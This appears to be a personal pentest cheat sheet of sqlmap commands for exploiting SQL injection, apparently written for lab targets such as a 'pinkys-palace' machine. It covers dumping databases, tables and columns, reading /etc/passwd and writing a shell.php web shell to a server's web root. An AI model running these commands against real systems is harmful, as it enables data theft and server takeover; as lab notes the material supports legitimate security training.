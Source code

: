 	```
## DB Data
1. Dump databases
	```
	sqlmap -r sqli.txt -p <parameter> --dbs --output-dir=$(pwd)/sqlmap
	```
2. Dump tables
	```
	sqlmap -r sqli.txt -p <parameter> -D <dbs> --tables --output-dir=$(pwd)/sqlmap
	```
3. Dump columns
	```
	sqlmap -r sqli.txt -p <parameter> -D <dbs> -T <table> --columns --dump --output-dir=$(pwd)/sqlmap
	```
4. Dump specific columns
	```
	sqlmap -r sqli.txt -p <parameter> -D <dbs> -T <table> -C <column1,column2> --dump --output-dir=$(pwd)/sqlmap
	```
5. Try levels
	```
	--level=5 --risk=3
	```

6. Proxy
	```
	 --proxy=http://192.168.110.27:31337/
	```

7. Specify URL instead 
	```
	# Remember to specify form if its a login page
	# Or you can just point it directly to the login.php, --form will not be needed
	
	# w/ --form
	sqlmap --url http://pinkys-palace:8080/littlesecrets-main/ --dbs --output-dir=$(pwd)/sqlmap --form
	
	# w/o --form
	sqlmap --url http://pinkys-palace:8080/littlesecrets-main/login.php --dbs --output-dir=$(pwd)/sqlmap
	```

8. [Read/Write file](https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/)
	```
	--file-read=/etc/passwd
	--file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php
	```
